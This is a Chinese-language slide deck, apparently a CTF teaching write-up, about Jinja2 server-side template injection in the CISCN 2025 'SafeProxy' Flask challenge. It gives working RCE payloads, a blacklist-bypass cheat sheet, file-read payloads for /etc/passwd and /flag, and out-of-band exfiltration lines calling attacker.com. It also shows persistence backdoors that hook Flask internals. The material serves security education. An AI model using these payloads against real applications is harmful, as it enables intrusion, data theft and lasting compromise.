

<!-- markdownlint-disable single-title no-inline-html heading-style blanks-around-headings no-duplicate-heading heading-increment-->

# CISCN 2025 SafeProxy

Tags: <Tag color="green">Jinja SSTI</Tag> <Tag color="blue">LFI</Tag> <Tag color="purple">Python</Tag>

<style>
h1 {
  background-color: #2B90B6;
  background-image: linear-gradient(45deg, #4EC5D4 10%, #146b8c 20%);
  background-size: 100%;
  -webkit-background-clip: text;
  -moz-background-clip: text;
  -webkit-text-fill-color: transparent;
  -moz-text-fill-color: transparent;
}
</style>

---

## 题目源码

```python {all|9-12|13-23|43-52|54-66|94-106|all}{lines:true, maxHeight:'90%'}
from flask import Flask, request, render_template_string
import socket
import threading
import html

app = Flask(__name__)

@app.route('/', methods=["GET"])
def source():
    with open(__file__, 'r', encoding='utf-8') as f:
        return '<pre>'+html.escape(f.read())+'</pre>'

@app.route('/', methods=["POST"])
def template():
    template_code = request.form.get("code")
    # 安全过滤
    blacklist = ['__', 'import', 'os', 'sys', 'eval', 'subprocess', 'popen', 'system', '\r', '\n']
    for black in blacklist:
        if black in template_code:
            return "Forbidden content detected!"
    result = render_template_string(template_code)
    print(result)
    return 'ok' if result is not None else 'error'

class HTTPProxyHandler:
    def __init__(self, target_host, target_port):
        self.target_host = target_host
        self.target_port = target_port

    def handle_request(self, client_socket):
        try:
            request_data = b""
            while True:
                chunk = client_socket.recv(4096)
                request_data += chunk
                if len(chunk) < 4096:
                    break

            if not request_data:
                client_socket.close()
                return

            with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as proxy_socket:
                proxy_socket.connect((self.target_host, self.target_port))
                proxy_socket.sendall(request_data)

                response_data = b""
                while True:
                    chunk = proxy_socket.recv(4096)
                    if not chunk:
                        break
                    response_data += chunk

            header_end = response_data.rfind(b"\r\n\r\n")
            if header_end != -1:
                body = response_data[header_end + 4:]
            else:
                body = response_data
                
            response_body = body
            response = b"HTTP/1.1 200 OK\r\n" \
                       b"Content-Length: " + str(len(response_body)).encode() + b"\r\n" \
                       b"Content-Type: text/html; charset=utf-8\r\n" \
                       b"\r\n" + response_body

            client_socket.sendall(response)
        except Exception as e:
            print(f"Proxy Error: {e}")
        finally:
            client_socket.close()

def start_proxy_server(host, port, target_host, target_port):
    proxy_handler = HTTPProxyHandler(target_host, target_port)
    server_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    server_socket.bind((host, port))
    server_socket.listen(100)
    print(f"Proxy server is running on {host}:{port} and forwarding to {target_host}:{target_port}...")

    try:
        while True:
            client_socket, addr = server_socket.accept()
            print(f"Connection from {addr}")
            thread = threading.Thread(target=proxy_handler.handle_request, args=(client_socket,))
            thread.daemon = True
            thread.start()
    except KeyboardInterrupt:
        print("Shutting down proxy server...")
    finally:
        server_socket.close()

def run_flask_app():
    app.run(debug=False, host='127.0.0.1', port=5000)

if __name__ == "__main__":
    proxy_host = "0.0.0.0"
    proxy_port = 5001
    target_host = "127.0.0.1"
    target_port = 5000

    # 安全反代，防止针对响应头的攻击
    proxy_thread = threading.Thread(target=start_proxy_server, args=(proxy_host, proxy_port, target_host, target_port))
    proxy_thread.daemon = True
    proxy_thread.start()

    print("Starting Flask app...")
    run_flask_app()
```

---

## 当用户输入成为代码：什么是服务器端模板注入？

SSTI 发生在用户输入被直接嵌入模板字符串中执行，而不是作为安全的数据上下文传递。

<div class="grid grid-cols-2 gap-4 my-4">
<div class="bg-red-50 dark:bg-red-900/10 border border-red-200 dark:border-red-800 p-4 rounded-lg">
<div class="flex items-center gap-2 text-red-600 dark:text-red-400 font-bold mb-2">
<div class="i-carbon-warning-filled" /> VULNERABLE
</div>
<div class="text-sm">

```python
template = f"Hello {user_input}"
render_template_string(template)
```

</div>
</div>
<div class="bg-green-50 dark:bg-green-900/10 border border-green-200 dark:border-green-800 p-4 rounded-lg">
<div class="flex items-center gap-2 text-green-600 dark:text-green-400 font-bold mb-2">
<div class="i-carbon-checkmark-filled" /> SAFE
</div>
<div class="text-sm">

```python
render_template_string("Hello {{ name }}", name=user_input)
```

</div>
</div>
</div>

### 为何 Jinja2 如此强大（且危险）？

Python 强大的 <span class="text-orange-500 font-bold">内省 (introspection)</span> 能力允许我们逃逸 Jinja2 沙箱。

<div class="flex flex-col gap-2 mt-4">
  <div class="flex items-center gap-2">
    <div class="i-carbon-tag text-blue-500" />
    <span><code>__class__</code>: 访问任何对象的类型。</span>
  </div>
  <div class="flex items-center gap-2">
    <div class="i-carbon-link text-blue-500" />
    <span><code>__mro__</code>: 遍历继承链，直至 object 基类。</span>
  </div>
  <div class="flex items-center gap-2">
    <div class="i-carbon-tree-view-alt text-blue-500" />
    <span><code>object.__subclasses__()</code>: 枚举解释器中所有已加载的类。</span>
  </div>
  <div class="flex items-center gap-2">
    <div class="i-carbon-improve-relevance text-red-500" />
    <span>最终目标：在众多子类中寻找危险方法（如文件 I/O、代码执行）。</span>
  </div>
</div>

---

## 经典利用链：通往 RCE 的万能钥匙

<div class="flex flex-col gap-2 mt-4">



</div>

### 初步探测

使用多语言探针 (polyglot probes) 测试表达式求值行为。

| Payload | Expected (if SSTI) | Engine Hint |
| --- | --- | --- |
| `{{7*7}}` | <span class="bg-orange-100 text-orange-600 px-1 rounded">49</span> | Jinja2, Twig |
| `{{7*'7'}}` | <span class="bg-orange-100 text-orange-600 px-1 rounded">7777777</span> | Jinja2 (string multiplication) |
| `{{config}}` | [Config object dump] | Flask/Jinja2 |
| `{{self}}` | [Template object ref] | Jinja2 |

---
layout: two-cols-header
---

## 行动蓝图：过滤器绕过备忘录

::left::

### 常见过滤器绕过方案

| 被拦截 | 解决方案 |
| --- | --- |
| `__` | `"_" + "_"` / `"_" ~ "_"` / `request.args` |
| `.` | `\|attr("x")` / `["key"]` |
| `[]` | `\|attr("__getitem__")(key)` |
| `'` / `"` | `request.args` / `request.cookies` |
| `_` | `"\x5f"` (hex) / `chr(95)` |
| `\|` | bracket notation `["key"]` (no filters) |
| `attr` | `["key"]` / `__getattribute__()` |
| `import` | `"_" ~ "_imp" ~ "ort_" ~ "_"` |
| `os` | `"o" ~ "s"` / subclass gadget |
| `popen` | `"po" ~ "pen"` / `"p\x6fpen"` |

::right::

### 常用字符 Hex 编码

| Symbol | Hex Escape |
| --- | --- |
| `_` | `\x5f` |
| `.` | `\x2e` |
| `[` | `\x5b` |
| `]` | `\x5d` |
| `'` | `\x27` |
| `"` | `\x22` |

---

## 定位并访问 `__builtins__`

::left::

<div class="flex items-center gap-2 my-2">
  <div class="i-carbon-keep-dry text-blue-500" />
  <h3>寻找全局入口点</h3>
</div>
<!-- ### 寻找全局入口点 -->

Flask/Jinja2 默认提供了一些可利用的全局对象。

| Object | Access Path to `__globals__` |
| --- | --- |
| `lipsum` | `lipsum.__globals__` |
| `cycler` | `cycler.__init__.__globals__` |
| `url_for` | `url_for.__globals__` |
| `config` | (Direct access) |
| `request` | (Direct access) |

::right::

<div class="flex items-center gap-2 my-2">
  <div class="i-carbon-arrow-right text-red-400" />
  <h3>从入口点到 <code>__builtins__</code></h3>
</div>

`__builtins__` 包含了所有 Python 内置函数，如 <span class="bg-orange-200 dark:bg-orange-800 px-1 rounded">open</span>, <span class="bg-orange-200 dark:bg-orange-800 px-1 rounded">eval</span>, <span class="bg-orange-200 dark:bg-orange-800 px-1 rounded">\_\_import\_\_</span>。

Payload:

<div class="bg-gray-100 dark:bg-gray-800 p-2 rounded text-sm mb-4">
&lcub;&lcub; lipsum.__globals__["<span class="bg-orange-200 dark:bg-orange-800 px-1 rounded">__builtins__</span>"] &rcub;&rcub;
</div>

Payload (Bypass):

<div class="bg-gray-100 dark:bg-gray-800 p-2 rounded text-sm">
&lcub;&lcub; lipsum|attr("__globals__")|attr("__getitem__")("<span class="bg-orange-200 dark:bg-orange-800 px-1 rounded">__builtins__</span>") &rcub;&rcub;
</div>

---
layout: two-cols-header
---

## 从 `__builtins__` 到任意代码执行

::left::

<div class="flex items-center gap-2 my-4 text-xl font-bold text-red-600 dark:text-red-400">
  <div class="i-carbon-flash-filled" />
  <h3>通过 <code>__builtins__</code> 直接执行</h3>
</div>

<div class="flex flex-col gap-4">
  <div class="border-l-4 border-red-500 pl-4">
    <div class="font-bold mb-1 text-sm">读取敏感文件</div>
    <div class="bg-gray-100 dark:bg-gray-800 p-3 rounded text-sm font-mono break-all border border-gray-200 dark:border-gray-700">
      <div class="text-gray-400 text-xs mb-1">// /etc/passwd</div>
      <div>&lcub;&lcub; lipsum.__globals__["<span class="text-red-600 font-bold">__builtins__</span>"]<span class="text-orange-600 font-bold">["open"]("/etc/passwd").read()</span> &rcub;&rcub;</div>
    </div>
  </div>

  <div class="border-l-4 border-red-500 pl-4">
    <div class="font-bold mb-1 text-sm">通过 <code>os.popen</code> 执行命令</div>
    <div class="bg-gray-100 dark:bg-gray-800 p-3 rounded text-sm font-mono break-all border border-gray-200 dark:border-gray-700">
      <div class="text-gray-400 text-xs mb-1">// RCE</div>
      <div>&lcub;&lcub; lipsum.__globals__["<span class="text-red-600 font-bold">__builtins__</span>"]["__import__"]<span class="text-orange-600 font-bold">("os").popen("id").read()</span> &rcub;&rcub;</div>
    </div>
  </div>

  <div class="border-l-4 border-red-500 pl-4">
    <div class="font-bold mb-1 text-sm">通过 <code>eval</code> 执行代码</div>
    <div class="bg-gray-100 dark:bg-gray-800 p-3 rounded text-sm font-mono break-all border border-gray-200 dark:border-gray-700">
      <div class="text-gray-400 text-xs mb-1">// RCE</div>
      <div>&lcub;&lcub; lipsum.__globals__["<span class="text-red-600 font-bold">__builtins__</span>"]["eval"]("<span class="text-orange-600 font-bold">__import__('os').popen('id').read()</span>") &rcub;&rcub;</div>
    </div>
  </div>
</div>

::right::

<div class="mx-2">
<div class="flex items-center gap-2 my-4 text-xl font-bold text-blue-600 dark:text-blue-400">
  <div class="i-carbon-flow" />
  <h3>通过子类 Gadget 执行</h3>
</div>

<div class="text-sm text-gray-500 mb-4">
  当直接访问 <code>__builtins__</code> 受限时，利用 <code>object.__subclasses__()</code> 寻找可用类。
</div>

<div class="bg-blue-50 dark:bg-blue-900/10 border border-blue-200 dark:border-blue-800 rounded-lg p-4 mb-4">
  <div class="flex items-center gap-2 font-bold text-blue-700 dark:text-blue-300 mb-2">
    <div class="i-carbon-terminal" />
    <span>subprocess.Popen (最常见)</span>
  </div>
  
  <div class="bg-white dark:bg-black/50 p-2 rounded border border-blue-100 dark:border-blue-900/50 font-mono text-xs overflow-x-auto">
    <div class="text-gray-400">// 1. 找到 Popen 类的索引</div>
    <div></div>
    <div class="text-gray-400 mt-1">// 2. 执行命令并获取输出</div>
    <div>&lcub;&lcub; popen("id", shell=True, stdout=-1).communicate()[0] &rcub;&rcub;</div>
  </div>
</div>

<div class="bg-gray-50 dark:bg-gray-800/50 border border-gray-200 dark:border-gray-700 rounded-lg p-3">
  <div class="text-xs font-bold text-gray-500 uppercase mb-1">Helper Script: Finding the Index</div>
  <div class="font-mono text-xs text-gray-600 dark:text-gray-400">
    # for i, cls in enumerate(object.__subclasses__()):<br/>
    #   if "Popen" in str(cls): print(i, cls)
  </div>
</div>
</div>

---

## 在无回显的场景下提取数据

当模板渲染结果不可见时（例如，只返回 'ok' 或 'error'），我们需要使用旁路信道 (side channels) 提取信息。

<div class="grid grid-cols-3 gap-x-4 gap-y-4 mt-8">

  <!-- Icons -->
  <div class="flex justify-center text-4xl text-blue-500"><div class="i-carbon-time" /></div>
  <div class="flex justify-center text-4xl text-red-500"><div class="i-carbon-warning" /></div>
  <div class="flex justify-center text-4xl text-green-500"><div class="i-carbon-export" /></div>

  <!-- Titles -->
  <div class="text-center font-bold text-lg -mt-2">时间盲注</div>
  <div class="text-center font-bold text-lg -mt-2">报错盲注</div>
  <div class="text-center font-bold text-lg -mt-2">带外数据提取 (OOB)</div>

  <!-- Descriptions -->
  <div class="text-sm text-gray-500 text-center -mt-2">根据条件的真假产生时间延迟。</div>
  <div class="text-sm text-gray-500 text-center -mt-2">根据条件的真假触发服务器错误 (500) 或正常响应 (200)。</div>
  <div class="text-sm text-gray-500 text-center -mt-2">让服务器主动将数据发送到攻击者控制的外部服务器。</div>

  <!-- Code Blocks -->
  <div class="bg-gray-100 dark:bg-gray-800 p-3 rounded text-xs font-mono border border-gray-200 dark:border-gray-700 h-full">
    <div class="mb-1 text-gray-400"># Boolean check delay</div>
    <div class="break-all">
      &lcub;&lcub; ...<br/>
      <span class="bg-orange-100 dark:bg-orange-900 text-orange-600 dark:text-orange-300 rounded px-1">__import__("time").sleep(3)</span><br/>
      <span class="bg-emerald-100 dark:bg-emerald-900 text-emerald-600 dark:text-emerald-300 rounded px-1">if open("/flag").read()[0]=="f"</span><br/>
      else "" &rcub;&rcub;
    </div>
  </div>

  <div class="bg-gray-100 dark:bg-gray-800 p-3 rounded text-xs font-mono border border-gray-200 dark:border-gray-700 h-full">
    <div class="mb-1 text-gray-400"># Trigger Error</div>
    <div class="break-all">
      &lcub;&lcub; ...<br/>
      <span class="bg-orange-100 dark:bg-orange-900 text-orange-600 dark:text-orange-300 rounded px-1">1/0</span><br/>
      <span class="bg-emerald-100 dark:bg-emerald-900 text-emerald-600 dark:text-emerald-300 rounded px-1">if open("/flag").read()[0]=="f"</span><br/>
      else "ok" &rcub;&rcub;
    </div>
  </div>

  <div class="bg-gray-100 dark:bg-gray-800 p-3 rounded text-xs font-mono border border-gray-200 dark:border-gray-700 h-full flex flex-col gap-2">
    <div>
      <div class="font-bold text-gray-500 mb-1">HTTP Callback:</div>
      <div class="break-all">
        &lcub;&lcub; ...<span class="bg-orange-100 dark:bg-orange-900 text-orange-600 dark:text-orange-300 rounded px-1">__import__("urllib.request").urlopen("http://attacker.com/?d="+flag)</span> &rcub;&rcub;
      </div>
    </div>
    <div>
      <div class="font-bold text-gray-500 mb-1">DNS Exfiltration:</div>
      <div class="break-all">
        &lcub;&lcub; ...<span class="bg-orange-100 dark:bg-orange-900 text-orange-600 dark:text-orange-300 rounded px-1">__import__("socket").gethostbyname(flag+".attacker.com")</span> &rcub;&rcub;
      </div>
    </div>
  </div>

</div>

---

## 应用污染与持久化后门

通过修改 Flask 应用运行时的内部对象，我们可以将一次性漏洞转变为持久化访问。

<div class="grid grid-cols-3 gap-x-4 gap-y-4 mt-8">

  <!-- Titles -->
  <div class="text-center font-bold text-lg">替换视图函数</div>
  <div class="text-center font-bold text-lg">注入请求钩子</div>
  <div class="text-center font-bold text-lg"><code>__file__</code> 污染</div>

  <!-- Descriptions -->
  <div class="text-sm text-gray-500 text-center -mt-2">覆盖一个现有的路由处理函数，使其在被访问时执行我们的恶意代码。</div>
  <div class="text-sm text-gray-500 text-center -mt-2">使用 `after_request` 钩子，修改服务器的每一个响应。</div>
  <div class="text-sm text-gray-500 text-center -mt-2">如果应用有显示自身源码的功能 (<code>open(__file__).read()</code>)，我们可以污染 <code>__file__</code> 变量，使其指向任意文件。</div>

  <!-- Graphics/Icons -->
  <div class="flex justify-center items-center h-20 text-blue-500">
    <!-- Simplified Diagram Representation -->
    <div class="relative w-full max-w-[180px] h-16 border border-blue-200 bg-blue-50 rounded p-2 text-xs flex flex-col justify-center items-center">
      <div class="flex items-center gap-1 w-full justify-between px-2">
        <span class="bg-white border px-1 rounded">/endpoint</span>
        <div class="i-carbon-arrow-right" />
        <span class="bg-red-100 border border-red-200 px-1 rounded text-red-600">malicious</span>
      </div>
    </div>
  </div>

  <div class="flex justify-center items-center h-20 text-blue-800">
    <div class="i-carbon-harbor text-6xl" />
  </div>

  <div class="flex justify-center items-center h-20 text-blue-800">
    <div class="i-carbon-document-export text-6xl" />
  </div>

  <!-- Code Blocks -->
  <div class="bg-gray-100 dark:bg-gray-800 p-3 rounded text-xs font-mono border border-gray-200 dark:border-gray-700 h-full">
    <div class="break-all">
      <br/>
      <span class="text-gray-400">// 覆盖 /target_endpoint 的处理逻辑</span><br/>
      &lcub;&lcub; app.view_functions.__setitem__("target_endpoint", <span class="bg-orange-100 dark:bg-orange-900 text-orange-600 dark:text-orange-300 rounded px-1">eval</span>) &rcub;&rcub;
    </div>
  </div>

  <div class="bg-gray-100 dark:bg-gray-800 p-3 rounded text-xs font-mono border border-gray-200 dark:border-gray-700 h-full">
    <div class="text-gray-400 mb-1">// 动态注册钩子函数</div>
    <div class="break-all">
      <br/>
      &lcub;&lcub; exec("app.after_request(<span class="bg-orange-100 dark:bg-orange-900 text-orange-600 dark:text-orange-300 rounded px-1">lambda r: setattr(r,'data',open('/flag').read().encode()) or r</span>)", {"app": app}) &rcub;&rcub;
    </div>
  </div>

  <div class="bg-gray-100 dark:bg-gray-800 p-3 rounded text-xs font-mono border border-gray-200 dark:border-gray-700 h-full flex flex-col justify-center">
    <div class="break-all">
      &lcub;&lcub; url_for|attr('_globals')|attr('__setitem__')('<span class="bg-orange-100 dark:bg-orange-900 text-orange-600 dark:text-orange-300 rounded px-1">__file__</span>', '/flag') &rcub;&rcub;
    </div>
  </div>

</div>

---
layout: two-cols-header
---

::left::

### 常见过滤器绕过方案

<div class="text-sm mx-2">

| 被拦截 | 解决方案 |
| --- | --- |
| `__` | `"_" + "_"` / `"_" ~ "_"` / `request.args` |
| `.` | `\|attr("x")` / `["key"]` |
| `[]` | `\|attr("__getitem__")(key)` |
| `'` / `"` | `request.args` / `request.cookies` |
| `_` | `"\x5f"` (hex) / `chr(95)` |
| `\|` | bracket notation `["key"]` (no filters) |
| `attr` | `["key"]` / `__getattribute__()` |
| `import` | `"_" ~ "_imp" ~ "ort_" ~ "_"` |
| `os` | `"o" ~ "s"` / subclass gadget |
| `popen` | `"po" ~ "pen"` / `"p\x6fpen"` |

</div>

::right::

### 常用字符 Hex 编码

<div class="text-sm mx-2">

| Symbol | Hex Escape |
| --- | --- |
| `_` | `\x5f` |
| `.` | `\x2e` |
| `[` | `\x5b` |
| `]` | `\x5d` |
| `'` | `\x27` |
| `"` | `\x22` |

</div>

<style>
td {
  padding: 0.25rem 0.5rem;
}
</style>

---

## 焚诀：♿

[Marven11/Fenjing](https://github.com/Marven11/Fenjing)
